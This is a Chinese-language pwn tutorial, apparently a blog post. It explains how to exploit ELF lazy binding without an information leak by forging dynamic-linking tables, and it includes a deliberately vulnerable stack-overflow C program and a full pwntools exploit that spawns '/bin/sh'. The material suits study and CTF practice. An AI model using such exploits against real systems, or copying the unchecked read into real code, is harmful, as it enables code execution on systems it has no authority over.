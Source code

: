 ```yaml
---
title: exploit without info leak 
date: 2017-02-15 22:28:37
categories: pwn
---
```


# 不依靠信息泄漏来exploit
> - by hook

## 信息介绍

 安全攻防的升级从堆栈执行shellcode到NX不可执行，从ret2libc到ASLR地址随机化，从dynamic symtab strtab到RELRO, 到攻击者的内存泄漏内存地址不断进化着。
目前攻击者在控制pc指针后，一般分两步来完成后续的漏洞利用。第一步通过信息泄漏漏洞leak出内存布局，第二部则是精心构造具有艺术感的exploit gadget。
 但如果有些程序没有可以泄漏内存的信息的漏洞怎么办？如下面的代码，除了明显的pc指针控制漏洞外，没有引入任何输出函数，导致后续没办法输出内存信息。
 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulfunc()
{
    char sbuf[10];
    read(0, sbuf, 60);
}

int main()
{
    vulfunc();
    exit(0);
    return 0;
}
```
在usenix大会上,ucsb-seclab分享了他们的攻击方法。在Linux上，为了节省静态库占用空间，和保证动态库的稳定工作，引入了一种plt lazy binding的技术。一个普通的ELF文件通常包含了下面一些段
![](/images/exploit without info leak/1.png)
而那些从外部动态库引入的函数则主要以字符串信息保存在ELF中，而它们正真的地址则在程序第一次调用它们时才从系统获取到。这个过程中利用PLT来完成延迟绑定，在第一次函数地址重定位后，函数地址将被写入GOT表中，此后再调用该函数将查询GOT表来跳转。（参考于 《程序员的自我修养 --链接、装载与库》）

## 攻击思路

那么这里就有个想法，如果修改了内存中保存的函数名，比如把"printf"这个字符串改为“execv“等关键函数，那么在第一次调用printf("/bin/sh")时，真正执行了execv("/bin/sh")，从而get shell。
但ELF相关开发小组早就做了保护，保存的函数名等字符串段在载入内存后是仅可读的，阻止攻击者通过篡改内存中函数名来获取到其他函数在内存中的地址。

但同样的思路，换个方法，就可以成功绕过防护，这里就要介绍写ELF中信息的分布和函数地址的动态重定位了了。
1. .dynstr段中保存了动态引入的函数名字符串
2. .dynsym段中则是记录了不同动态引入函数的其他信息，并且st_name保存了.dynstr中对应的函数名称的下标号
    struct {
        st_name
        ...
    }
3. .rel.plt段则是用来记录引入函数的地址信息，如果在动态链接器获取了函数地址后，r_offset保存解析后的符号地址被写入内存中的位置，而r_info保存.dynsym中对应的函数信息的下标号
    struct {
        r_offset
        r_info
    }
4. .dynamic段则保存了上面各个段的地址，负责地址的查询工作

而函数地址则由got表中第二个标号中的_dl_runtime_resolve(link_map_obj, reloc_index)函数指针来获取，获取到的地址则保存到got表中，那么就可以衍生出下面几种不同情况下的攻击方法：

## 攻击方法
### 部分RELRO保护 1.
在内存可写的段中构造伪造的.dynstr段信息，将其中的最后要用的函数名改为自己想要的函数名，比如execv 替换printf
接着将该段内存的地址覆盖写入.dynmaic段中保存.dynstr地址的区域，接着再向内存中写入shellcode，接着给printf函数传入shellcode，那么当printf是第一次被调用时，将从伪造的.dynstr段中读取到“execv”函数名，接着从内存中获取到execv函数地址存入printf函数对应的got表中，最后跳转回去再执行到的就是execv(shellcode)了，成功get shell。
### 部分RELRO保护 2.
直接一次性伪造.dynstr, .dynsym, .rel.plt三个段，填入自己想获取的函数名称信息，最后将伪造的.rel.plt地址传入_dl_runtime_resolve()中，最后会顺着地址将伪造的.dynstr段中的函数名解析，获取到地址，保存到对应标号的GOT表中，后续就是同样利用了。
### 完全RELRO保护 3.
当采用完全RELRO保护时，所有重定位将在加载时全部完成，没有plt lazy binding, 所以要绕过保护需要采用不同的方法。
伪造.dynamic, .dynstr, 接着通过DT_DEBUG来解析r_debug中保存的r_map信息，r_map则保存着link_map链表的头部指针， 覆盖link_map的l_info指向伪造的.dynamic段中，后续相同利用。

## 攻击测试
先贴exp：

```
#!/usr/bin/python

from pwn import *

vulFunAddr = 0x0804845b
mainFunAddr = 0x08048476
readpltAddr = 0x08048310
exitpltAddr = 0x08048340
putspltAddr = 0x08048320
dynstrInDynamicAddr = 0x080496a0
dynstrAddr = 0x0804821c
bssAddr = 0x08049770
dynstrListAddr = [0x0804821c, 0x0804821d, 0x08048227, 0x08048236, 0x0804823b, 0x08048240, 0x08048245, 0x08048257, 0x08048266, 0x08048270]
strTable = ['', 'test', 'libc.so.6', '_IO_stdin_used', 'puts', 'exit', 'read', '__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[4] = 'system' #use 'system' in place of 'exit'
log.info('strTable = ')
log.info(strTable)

expOffset = 22 
log.info("* [ok]: exploit offset is " + str(expOffset))
binShellStr = '/bin/sh\0'
payloadHead = 'a'*expOffset

def showDynStr():
    log.info("=======================")
    for i in dynstrListAddr:
        payload = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(i)
        p.send(payload)
        str = p.recv()
        #print str
    log.info("=======================")


def writeStrTableToBSS(baseAddr):
    tempBSS = baseAddr
    for i in strTable:
        #str = i + chr(0)
        str = i + chr(0)
        payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(tempBSS) + p32(len(str)+1)
        p.send(payloadTemp)
        log.info('* [ready]: write str = %s ' %(str))
        p.sendline(str)
        #set new bss offset
        tempBSS = tempBSS + len(str)

p = process('./a.out')
#context.log_level = 'debug'
#gdb.attach(p, execute='b *0x0804845b\nb *0x08048476\nb *0x08048340\n')

p.recvline()

log.info("* [ok]: show dynstr strtable")
showDynStr()

#first: write '/bin/sh\0' to BSS seg
payload1 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
p.send(binShellStr)
log.info("* [ok]: write '/bin/sh\0' to .bss seg successed!")

#second: write StrTable to BSS seg
dynstrInBSSAddr = bssAddr + len(binShellStr)
writeStrTableToBSS(dynstrInBSSAddr)
log.info("* [ok]: write self StrTable to .bss seg successed!")


log.info("* [ok]: show dynstr strtable")
showDynStr()

#third: write new StrTable address to dynamic d_val addr
payload2 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
p.send(p32(dynstrInBSSAddr))
log.info("* [ok]: write new StrTable to dynamic d_var addr successed!")

log.info("* [info]: ensure '/bin/sh' in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
str = p.recv()
print str

#forth: exit, and exit@plt('/bin/sh') -> system('/bin/sh')
#payload3 = payloadHead + p32(exitpltAddr) + p32(mainFunAddr) + p32(bssAddr)
log.info("* [ok]: show strTable in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(dynstrInBSSAddr)
p.send(payload3)
str = p.recv()
log.info("=======================")
print str
log.info("=======================")
payload3 = payloadHead + p32(exitpltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
log.info("* [waiting]: exit@plt('/bin/sh') -> system('/bin/sh')")

p.interactive()
```

在测试结果时，故意将函数名填错后，程序运行提示重定位错误
![](/images/exploit without info leak/2.jpeg)
修改正确后
![](/images/exploit without info leak/3.png)
~~但。。。。最后没得到shell。。不知道是我调用有问题。。还是。。算了，记日记，以后再调试。。。~~
修改了exp，成功get shell，这里就不截图上传了
